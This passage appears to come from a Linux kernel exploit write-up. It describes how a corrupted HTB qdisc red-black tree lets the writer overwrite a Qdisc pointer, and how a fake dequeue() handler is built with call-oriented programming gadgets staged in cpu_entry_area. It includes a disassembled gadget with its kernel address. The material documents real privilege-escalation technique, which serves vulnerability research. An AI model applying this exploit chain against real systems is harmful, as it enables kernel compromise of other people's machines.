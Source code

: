 Now F and T are swapped:

```
                    Q
                   / \
                  F   2:6    
                      / \
                    1:2  2:7
                          \
                           2:8
``` 

The last RBTree transformation allowed us to overwrite `htb->leaf.q` (Qdisc pointer) with F.

**@step(12): Replace htb->rate.rate_bytes_ps with CEA base, ceil with a COP gadget**

In this step, we can fake a `dequeue()` handler using a COP gadget, since we control F's second qword (`htb->ceil.rate_bytes_ps`):


```
                    Q
                   /  \
                  F    ...   
                   \   
                    COP_GADGET_1 (Fake htb->leaf.q->dequeue())
```

Now, we just need to wait for the packets sent in step 9 to be dequeued.

When the TBF watchdog time fires, and the first COP gadget is executed, `R14` contains the address of the current HTB class.
`[R14 + 0x18]` corresponds to `htb->rate.rate_bytes_ps`, a user-controllable u64 value.

We set it to the address of `cpu_entry_area`. Our second COP gadget is placed 0x20 bytes within CEA.

With the first COP gadget, first `RAX` is set to `[CEA + 0x28]` (the address of the second COP gadget). Then the CEA address is moved in `RDI`. Finally `RAX` is called, and the second COP gadget executed.

```c
// COP gadget 1: [R14+0x18] R14 == htb_class addr, [R14+0x18] == htb_class->rate.rate_bytes_ps aka CEA
// 
// ffffffff8124d7de:    mov    rax,QWORD PTR [r14+0x18] // RAX = CEA
// ffffffff8124d7e2:    mov    rax,QWORD PTR [rax+0x28] // RAX = [CEA + 0x28] (COP gadget 2)
// ffffffff8124d7e6:    test   rax,rax
// ffffffff8124d7e9:    je     0xffffffff8124d875       // JMP not taken
// ffffffff8124d7ef:    mov    rcx,QWORD PTR [rsp+0x8]
// ffffffff8124d7f4:    xor    edx,edx
// ffffffff8124d7f6:    mov    esi,ebx
// ffffffff8124d7f8:    mov    rdi,r14                  // RDI = CEA
// ffffffff8124d7fb:    call   0xffffffff82484e80       // call RAX (COP gadget 2)
//
#define COP_GADGET_1 0xffffffff8124d7de
```
